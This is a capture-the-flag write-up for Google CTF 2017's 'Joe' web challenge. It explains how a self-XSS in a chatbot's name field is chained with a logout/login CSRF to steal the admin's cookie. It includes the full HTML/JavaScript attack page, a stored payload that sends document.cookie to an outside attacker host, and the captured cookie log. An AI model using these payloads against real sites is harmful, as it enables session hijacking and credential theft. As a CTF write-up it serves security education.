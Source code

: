 ## Google CTF 2017 - Joe (Web 347pt)
##### 17-18/06/2017 (48hr)
___
### Description

Meet our brand new personal assistant, Joe. He is the perfect talking partner if you want to have 
some small talk with a machine. We have put extra emphasis on security when developing Joe, 
but we'd like to invite you to participate in our H4x0r R3w4rd Pr06r4m (HRP) to help us 
make Joe even more secure. If you can find a vulnerability that makes it possible to 
steal the cookies of the administrator, we will reward you with a valuable flag.


https://joe-dot-ctf-web-kuqo48d.appspot.com

___
### Solution

The website shows some information on how to use the agent. If we try to access admin's page
we'll get the following message:
```
Sorry, you're either not listed as admin user, or you don't have your FLAG cookie set to the secret value.
```

Clearly, our goal is to get admin's cookie. There's a straightforward XSS if we chage Joe's name:
```
your name is <script>alert('foo')</script>

Sure. From now on, call me <script>alert('foo')</script>.
```

Although, reflected text is "sanitized", the XSS is triggered upon login. The problem here is that
XSS is on our page (self XSS), but we want to execute the code on admin's page. If we type
"bug report", we can submit a link and admin will review it.

A quick look at the [main.js](./main.js) reveals many details on how the website works:
```javascript
function displayMessage(message, peer) {
  var row = document.createElement('p');
  row.className = peer;
  row.textContent = message;
  conversation.appendChild(row);
  if (message == 'Please enter an URL where the administrator can read your report.') {
    window.last_recaptcha_widget = grecaptcha.render(row, {
      sitekey: '6LcpdyEUAAAAANJs8t_yNnYN_N82aP1w7gjoN5k4'
    });
  }
}

csrf_header = new Headers();
csrf_header.append('CSRF-Protection', '1');

function getText(response) {
  return response.text();
}

function sendMessage(msg) {
  var url = '/message?msg=' + encodeURIComponent(msg)
  if (window.last_recaptcha_widget !== undefined) {
    url += '&captcha=' + encodeURIComponent(grecaptcha.getResponse(window.last_recaptcha_widget));
    delete window.last_recaptcha_widget;
  }
  fetch(url, {headers: csrf_header, credentials: 'include'}).then(getText).then(function(res) {
    displayMessage(res, 'joe');
  });
}

window.addEventListener('load', function() {
  messagebox.addEventListener('keydown', function(event) {
    if (event.keyCode == 13 && messagebox.value != '') {
      displayMessage(messagebox.value, 'user');
      sendMessage(messagebox.value);
      messagebox.value = '';
    }
  })
});
```


Trying to send a message to the admin directly (using the '/message?msg=' URL) doesn't
work due to the CSRF protection. The first approach is a cross domain AJAX request.
Although the response is blocked due to the SOP, the actual request arrives to the server.
To prevent this problem Chrome performs an OPTIONS request first and if it succeeds it
continues with the GET request.

However the problem of converting a self XSS into regular XSS is not new. The general
approach is to logout the victim and login him back into attacker's account, where
XSS payload resides.

If we take a closer look at the network logs during authentication:
![alt text](./image_1.png)

we will see the following request:

```
http://joe-dot-ctf-web-kuqo48d.appspot.com/login?id_token=eyJhbGciO[....]VsBf0dupXW50g
```

Note that by copy-pasting this link to another browser we can login without any
further authentication. Also if the admin is already logged in, we can logout
him using CSRF on `http://joe-dot-ctf-web-kuqo48d.appspot.com/logout`. And if admin
is logged out we can login him back to his account using the URL
`http://joe-dot-ctf-web-kuqo48d.appspot.com/login`

Therefore, our attack is the following: First admin visits our malicious webpage 
`https://ispo.gr/attack.php` which contains the following code:
```html
<img src='http://joe-dot-ctf-web-kuqo48d.appspot.com/logout'>

<script>
setTimeout( 
	function() { 
		img = document.createElement('img');
		img.src = 'http://joe-dot-ctf-web-kuqo48d.appspot.com/login?id_token=eyJhbGciOiJSUzI1'+
		'NiIsImtpZCI6ImVjODcyYzE2YmY2NTQyMGRkMDJjZDQ0MTAzY2Q5ODBjNTlmMWNjMWYifQ.eyJhenAiOiIyO'+
		'DQ5NDAzNzA5MjUtY240aWZlZnVrMzNrbjBiODg3cHBwdjVmamI5MWU4cTcuYXBwcy5nb29nbGV1c2VyY29ud'+
		'GVudC5jb20iLCJhdWQiOiIyODQ5NDAzNzA5MjUtY240aWZlZnVrMzNrbjBiODg3cHBwdjVmamI5MWU4cTcuY'+
		'XBwcy5nb29nbGV1c2VyY29udGVudC5jb20iLCJzdWIiOiIxMDYxMTU2MDcxMDE5OTg0MDM3NjQiLCJhdF9oY'+
		'XNoIjoibU52VkxGNThfQ2ZObVRNRTMya3JvdyIsImlzcyI6Imh0dHBzOi8vYWNjb3VudHMuZ29vZ2xlLmNvb'+
		'SIsImlhdCI6MTQ5NTg1OTI3NSwiZXhwIjoxNDk1ODYyODc1LCJuYW1lIjoiaXNwbyA7IiwicGljdHVyZSI6I'+
		'mh0dHBzOi8vbGgzLmdvb2dsZXVzZXJjb250ZW50LmNvbS8tV2NjaFg2bWJfckkvQUFBQUFBQUFBQUkvQUFBQ'+
		'UFBQUFBSW8vTXYzMk5JdEQ5MUEvczk2LWMvcGhvdG8uanBnIiwiZ2l2ZW5fbmFtZSI6ImlzcG8iLCJmYW1pb'+
		'HlfbmFtZSI6IjsiLCJsb2NhbGUiOiJlbCJ9.ZDgUUIHcyMgcdUVUNHuvR2YqGlCLzGDTmWmR_ScRi5ejV9IO'+
		'YHyi1sz7dwiBXAqJ1WWF-_N_OggpCYADIoG3EDGqlqfkJrEavh3Xu_QW61ioA7_MSQWngReEgAxGkBQTv-1J'+
		'LlbHyn58ls1LCYOn1fSIQVVbLkqZAqYIH2GgKuq0Glk-XXHlZoxOknDP0F1rwgiY1Mhmvr33UOuOXSs-sJ7n'+
		'gq5bvi7eEPZvhMN_sITwJ7dNgUeUuL5_heUona1UdpFuO_cdCLYvoHeziT4pSsFgDwAxzb0-B4PD7FfoOxu8'+
		'sSLtuENUWQmVed_ye2sxLlfXHcWQkrDBiuFLTKw2VA';
	}, 1000);

</script>
```


This will logout admin and will login him back at the attacker's profile. The next step is 
to inject the following payload in our profile:
```html
<iframe id='i' src'=http://joe-dot-ctf-web-kuqo48d.appspot.com/login'></iframe>

<script>
	setTimeout( 
		function() { 
			m=document.createElement('img');
			m.src='https://ispo.gr/xss.php?cookie='+
				document.getElementById('i').contentWindow.document.cookie
		},
	999)
</script>
```

(Keep in mind that payload is limited to 256 chars, so we have to keep it small).
This will create a new iframe (which is isolated) and will login admin again in his profile.
Because we're under the same origin, we can access the contents of the iframe directly from
javascript, so we grab his cookie and we sent it back to attacker's machine. The full attack
is shown below:

![alt text](./image_2.png)

After submitting the link for review, we'll see into the console (the file that xss.php writes to):
```
Connected! Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/58.0.3029.110 Safari/537.36

Got Cookie! flag=CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}; session=eyJhcGlhaV9zZXNzaW9uIjoiMTA2MTE1NjA3MTAxOTk4NDAzNzY0IiwidXNlcl9uYW1lIjoiaXNwbyJ9|1495864281|bcc1db548cea8c00260e5b5974c68c2f877c43b8
```

So the flag is `CTF{h1-j03-c4n-1-h4v3-4-c00k13-plz!?!}`.

___
